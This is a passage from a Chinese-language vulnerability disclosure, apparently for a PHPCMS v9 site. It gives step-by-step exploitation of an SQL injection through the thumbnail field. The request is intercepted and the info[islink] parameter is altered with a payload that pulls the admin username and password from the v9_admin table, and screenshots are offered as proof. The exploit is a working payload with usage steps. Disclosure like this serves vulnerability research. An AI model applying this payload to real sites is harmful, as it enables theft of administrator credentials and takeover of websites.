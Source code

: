 step3 在缩略图栏填入 [`**.**.**.**/sql.jpg'，如图`](http://**.**.**.**/sql.jpg'，如图)

![](img/1110244162d450c6a6efaa9cf2679b9a48e19f62.jpg)

提交后，报错了...

![](img/11102656897f301d21b46a22bc4fa091266adba5.jpg)

# 漏洞最终利用 Exp

在缩略图栏填入：[`**.**.**.**/sql.jpg`](http://**.**.**.**/sql.jpg)'

点击提交，采用 Tamper data 抓包修改，将 info[islink]修改为

```php
,title=(select concat(username,password) from v9_admin where userid=1) -- felixk3y 
```

点击确定，再点编辑 即可读取管理员账号 密码，如图

![](img/11110022c07aae832a18e6b752fab09bc3f34a0e.jpg)

## 漏洞证明

![](img/11110022c07aae832a18e6b752fab09bc3f34a0e.jpg)
